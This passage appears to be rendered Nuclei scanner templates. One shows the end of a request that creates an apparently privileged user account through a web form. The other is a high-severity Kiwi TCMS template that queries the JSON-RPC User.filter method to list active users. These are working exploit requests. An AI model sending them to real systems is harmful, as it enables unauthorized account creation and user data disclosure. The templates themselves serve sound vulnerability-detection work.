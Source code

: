 ```
Testing1@
--01b28e152ee044338224bf647275f8eb
Content-Disposition: form-data; name="email"

test@{{randstr}}.tld
--01b28e152ee044338224bf647275f8eb
Content-Disposition: form-data; name="editid"


--01b28e152ee044338224bf647275f8eb
Content-Disposition: form-data; name="add"

add
--01b28e152ee044338224bf647275f8eb
Content-Disposition: form-data; name="ulevelid"

9
--01b28e152ee044338224bf647275f8eb--

```

### Matchers

**Type - word**

- words
  1. User {{randstr}} successfully added to Database
- part - body

**Type - status**

- status
  1. 302

---

# Kiwi TCMS Information Disclosure

- severity - high
- tags - kiwitcms,exposure,misconfig,hackerone

## Requests

### Step - 1

```
POST /json-rpc/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json
Accept-Encoding: gzip, deflate

{"jsonrpc":"2.0","method":"User.filter","id": 1,"params":{"query":{"is_active":true}}}

```
